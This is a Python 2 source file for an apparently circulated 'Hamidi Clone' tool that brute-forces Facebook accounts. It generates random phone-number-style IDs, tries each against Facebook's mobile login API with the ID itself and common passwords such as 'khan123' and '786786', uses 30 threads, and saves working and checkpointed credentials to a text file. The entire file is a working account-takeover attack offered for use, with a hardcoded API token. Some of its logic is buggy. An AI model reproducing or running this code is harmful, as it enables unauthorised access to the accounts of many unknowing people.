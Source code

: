 import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass

os.system('rm -rf .txt')
for n in range(5000):
    afg = random.randint(111111, 999999)
    sys.stdout = open('.txt', 'a')
    print afg
    sys.stdout.flush()


try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')


try:
    import mechanize
except ImportError:
    os.system('pip2 install request')

import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, requests, mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time = 1)
br.addheaders = [
    ('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [
    ('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]


#clone system

	

	
	
back = 0
oks = []
id = []
cpb = []
vulnot = '\x1b[31mNot Vuln'
vuln = '\x1b[32mVuln'
os.system('clear')

#Logo
logo ="""
\033[1;97m                         :                 \033[1;0m
\033[1;97m ##     ##      ####    ##         ## \033[1;0m
\033[1;97m ##     ##     ## ##    ###      ### \033[1;0m
\033[1;97m ##     ##    ##   ##   ## #    # ## \033[1;0m
\033[1;97m ########   #######  ##  #  #  ## \033[1;0m
\033[1;97m ##     ##   ##     ##  ##   ##   ## \033[1;0m
\033[1;97m ##     ##   ##     ##  ##   ##   ## \033[1;0m
\033[1;97m--------------------------------------------------
\033[1;97m Coding By     : Hamidi Janan 

\033[1;97m more Names  : Loy ,Raees ,Hamdard ,Hamidi ,Janan

\033[1;97m Telegram CH1 : https://t.me/HAMdard_Hack_zone

\033[1;97m TLEGRAM CH2: https://t.me/HAMdard_Hack_zone
\033[1;97m--------------------------------------------------
"""
#call menu
def Hamidi():
	menu()


#menu option 

def menu():
    os.system('clear')
    print logo
    print '[1]Hamidi Clone'
    print ''
    Select_menu()
    
#Select_menu

def Select_menu():
    Select =raw_input('(Choose Clone Methode):')
    if Select == '':
        print 'Fill Empty'
        Select_menu()
    elif Select == '1':
    	
        os.system('clear')
        print logo 
        print 'Choose Any Code: 88,77,99,00,ETC'
        print ''
        
        try:
            c = raw_input('Input code :')
            print '' 
            k = '07'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())
        except IOError:
            print 'File Empty'
            raw_input('Try ')
            Furqan()
        

    print('Cloning Is Start:(Wait For Fb ID)')
    print ''
    
    
    
    def main(arg):
        user = arg
        
        try:
            os.mkdir('Qasim')
        except OSError:

            pass
            
   
            
            
#clone Password
        
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print ' \x1b[1;92m(HAMIDI_OK) ' + k + c + user + ' | ' + pass1
                okb = open('Qasim.txt', 'a')
                okb.write(k + c + user + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print ' \x1b[1;91m(HAMIDI_CP) ' + k + c + user + ' | ' + pass1
                cps = open('Qasim.txt', 'a')
                cps.write(k + c + user + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = k + c + user
                data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                q = json.load(data)
                if 'access_token' in q:
                    print ' \x1b[1;92m(HAMIDI_OK)' + k + c + user + ' | ' + pass2
                    okb = open('Qasim.txt', 'a')
                    okb.write(k + c + user + pass2 + '\n')
                    okb.close()
                    oks.append(c + user + pass2)
                elif 'www.facebook.com' in q['error_msg']:
                    print ' \x1b[1;91m(HAMIDI_CP) ' + k + c + user + ' | ' + pass2
                    okb = open('Qasim.txt', 'a')
                    cps.write(k + c + user + pass2 + '\n')
                    cps.close()
                    cpb.append(c + user + pass2)
                else:
                    pass3 = 'khan123'
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print ' \x1b[1;92m(HAMIDI_OK) ' + k + c + user + ' | ' + pass3
                        okb = open('Qasim.txt', 'a')
                        okb.write(k + c + user + pass3 + '\n')
                        okb.close()
                        oks.append(c + user + pass3)
                    elif 'www.facebook.com' in q['error_msg']:
                        print ' \x1b[1;91m(HAMIDI_CP) ' + k + c + user + ' | ' + pass3
                        cps = open('Qasim.txt', 'a')
                        cps.write(k + c + user + pass3 + '\n')
                        cps.close()
                        cpb.append(c + user + pass3)
                    else:
                        pass4 = 'afghan123'
                        data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                        q = json.load(data)
                        if 'access_token' in q:
                            print ' \x1b[1;92m(HAMIDI_OK) ' + k + c + user + ' | ' + pass4
                            okb = open('Qasim.txt', 'a')
                            okb.write(k + c + user + pass4 + '\n')
                            okb.close()
                            oks.append(c + user + pass4)
                        elif 'www.facebook.com' in q['error_msg']:
                            print ' \x1b[1;91m(HAMIDI_CP) ' + k + c + user + ' | ' + pass4
                            cps = open('Qasim.txt', 'a')
                            cps.write(k + c + user + pass4 + '\n')
                            cps.close()
                            cpb.append(c + user + pass4)
                        else:
                            pass5 = 'afghanistan'
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print ' \x1b[1;92m(HAMIDI_OK) ' + k + c + user + ' | ' + pass5
                                okb = open('Qasim.txt', 'a')
                                okb.write(k + c + user + pass5 + '\n')
                                okb.close()
                                oks.append(c + user + pass5)
                            elif 'www.facebook.com' in q['error_msg']:
                                print ' \x1b[1;91m(HAMIDI_CP) ' + k + c + user + ' | ' + pass5
                                cps = open('Qasim.txt', 'a')
                                cps.write(k + c + user + pass5 + '\n')
                                cps.close()
                                cpb.append(c + user + pass5)
                            else:
                             pass6 = '786786'
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass6 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print ' \x1b[1;92m(HAMIDI_OK) ' + k + c + user + ' | ' + pass6
                                okb = open('Qasim.txt', 'a')
                                okb.write(k + c + user + pass6 + '\n')
                                okb.close()
                                oks.append(c + user + pass6 )
                            elif 'www.facebook.com' in q['error_msg']:
                                print ' \x1b[1;91m(HAMIDI_CP) ' + k + c + user + ' | ' + pass6
                                cps = open('Qasim.txt', 'a')
                                cps.write(k + c + user + pass6  + '\n')
                                cps.close()
                                cpb.append(c + user + pass6)
                            else:
                             pass7 = '100200'
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass7 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print ' \x1b[1;92m(HAMIDI_OK) ' + k + c + user + ' | ' + pass7
                                okb = open('Qasim.txt', 'a')
                                okb.write(k + c + user + pass7 + '\n')
                                okb.close()
                                oks.append(c + user + pass7 )
                            elif 'www.facebook.com' in q['error_msg']:
                                print ' \x1b[1;91m(HAMIDI_CP) ' + k + c + user + ' | ' + pass7
                                cps = open('Qasim.txt', 'a')
                                cps.write(k + c + user + pass7  + '\n')
                                cps.close()
                                cpb.append(c + user + pass7)
                                
                                
        except:
            pass
        

#end Message
    p = ThreadPool(30)
    p.map(main, id)
    print 'Clone Completed'
    print 'Note : Cp accounts Will Open after 10/12 days'
    print ''
    raw_input('enter to back')
    menu()

if __name__ == '__main__':
    menu()

